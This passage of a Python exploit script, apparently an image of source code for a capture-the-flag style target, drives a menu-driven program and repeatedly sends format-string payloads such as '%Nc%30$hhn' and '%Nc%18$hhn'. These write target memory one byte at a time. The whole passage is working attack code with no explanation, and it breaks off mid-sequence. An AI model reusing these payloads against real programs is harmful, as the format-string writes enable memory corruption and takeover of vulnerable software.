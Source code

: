 ```python
    sendln('%'+str(i & 0xff) + 'c%30$hhn')
    #readtil('>>> ')
    sendln('4')
    readtil('>>> ')


    sendln('3')
    readtil('change?')
    sendln('BAR4')
    readtil('>>>')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((x+1) & 0xff)+'c%18$hhn')
    #readtil('>>> ')
    sendln('4')
    readtil('>>> ')

    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((i >> 8) & 0xff) + 'c%30$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')

    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((x+2) & 0xff)+'c%18$hhn')
    #readtil('>>> ')
    sendln('4')
    readtil('>>> ')

    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((i >> 16) & 0xff) + 'c%30$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')

    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
```